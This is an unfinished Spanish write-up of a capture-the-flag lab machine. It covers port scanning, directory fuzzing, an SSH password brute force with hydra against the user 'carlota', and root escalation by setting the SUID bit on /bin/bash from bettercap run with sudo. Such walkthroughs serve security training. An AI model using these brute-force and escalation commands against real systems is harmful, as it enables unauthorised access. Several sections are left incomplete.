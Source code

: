 
> Habilidades: Enumeración, steganografía, escalada de privilegios (linux)


# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://i.imgur.com/NssolyM.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________

### ENUMERAR SERVICIOS
Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://i.imgur.com/6ybGn1A.png)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________

## Http Service

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://i.imgur.com/iz3f6TK.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante. Siempre hay que enumerar todo lo que se pueda.
![despido](https://i.imgur.com/JTVpkU4.png)

_____________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://i.imgur.com/GEns8Jg.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://i.imgur.com/qsO45ms.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos.
~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especificar un nombre.
- `-P`: Especificar una lista de palabras.
- `-t4`: Especificar hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

¡¡BINGO!! obtuvimos las credenciales de Carlota.

## Escalada de privilegios



# Escalada de privilegios


Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para esto cambiaremos el valor de la variable `$TERM`

~~~ bash
> control Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty size
stty rows 44 columns 184


~~~

***UNDER CONSTRUCTION***


## Sudoers

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando

~~~ bash
sudo -l
~~~

![sudo -l]()

- `-l`: Enumerar los comandos permitidos (o prohibidos) invocables por el usuario en la máquina actual

![exec bettercap with sudo]()

Veamos el panel de ayuda con el comando `help`


## SUID Privilege Escalation

Esta opción (`!`) nos permite ejecutar un comando a nivel de sistema, así que podemos asignar el privilegio SUID a la `bash` para ejecutarla como `root`, para eso, lo haremos con el comando `chmod`, dentro de la consola interactiva de `bettercap` ejecutamos el siguiente comando

~~~ bash
! chmod u+s /bin/bash
~~~


- `-eval`: Ejecutar un comando en la máquina





